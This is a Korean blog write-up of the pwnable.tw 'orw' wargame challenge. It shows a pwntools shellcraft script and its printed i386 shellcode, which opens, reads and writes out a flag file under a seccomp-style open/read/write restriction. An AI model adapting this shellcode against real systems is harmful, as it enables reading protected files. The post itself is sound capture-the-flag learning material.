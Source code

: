 ```yaml
---
layout: post
title: ! ' [pwnable.tw] orw (100pt) '
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Wargame
---
```


심심해서 [pwnable.tw](https://pwnable.tw/challenge/) 쉬운 문제 풀었다.

근데 쉘크래프트 써본게 처음이라 정리 해 본다.

<!--more-->

## 개요

사실 이전에도 그랬고, 한땀 한 땀 `shellcode` 작성하다가 화가 나는 경험을 많이 했다.

그런데 이번에 문제풀다가 코드 자체를 잘못짰다는걸 깨닫고 멘붕에 빠져서 푸는걸 접으려고 했는데, `pwntools`에서 제공하는 `shellcraft` 생각이 나서 마지막으로 속는다고 생각하고 공부했다.

그런데 공부하길 잘한 것 같다 :D



## orw

문제는 그렇게 안 어렵다. 쉘 코드를 올리면 바로 실행되는데 대신 시스템 콜은 o(pen), r(ead), w(rite)만 가능하다. 근데 저거 주면... 당연히 다 준거다...

쉘 코드를 만들 줄 아냐고 물어보는 문제 같은데, 만들다가 너무 귀찮아서 때려칠려는 찰나 `shellcraft`느님이 강림하셨으니!!!



## Generating Shellcode

```python
from pwn import *

context(arch='i386', os='linux')

def genCode(sc) :
    return "".join(['\\x{:02X}'.format(ord(i)) for i in asm(sc)])

#print "".join(['\\x{:02X}'.format(ord(i)) for i in asm(shellcraft.open('/home/orw/flag').rstrip())])

shellcode = (genCode(shellcraft.open('/home/orw/flag').rstrip()))
shellcode += (genCode(shellcraft.syscall('SYS_read', 3, 'esp', 64).rstrip()))
shellcode += (genCode(shellcraft.syscall('SYS_write', 1, 'esp', 64).rstrip()))

print shellcode
log.info(len(shellcode))
```

> root@ubuntu:~/challenges/pwnable.tw/orw# python shellcode.py 
>
> \x68\x01\x01\x01\x01\x81\x34\x24\x60\x66\x01\x01\x68\x77\x2F\x66\x6C\x68\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x89\xE3\x31\xC9\x31\xD2\x6A\x05\x58\xCD\x80\x6A\x03\x58\x6A\x03\x5B\x89\xE1\x6A\x40\x5A\xCD\x80\x6A\x04\x58\x6A\x01\x5B\x89\xE1\x6A\x40\x5A\xCD\x80
>
> [*] 256

와우...

쉘코드가... 그냥 뚝딱 하고 나와버린다.

사랑합니다 `pwntools` ㅠㅠㅠㅠㅠ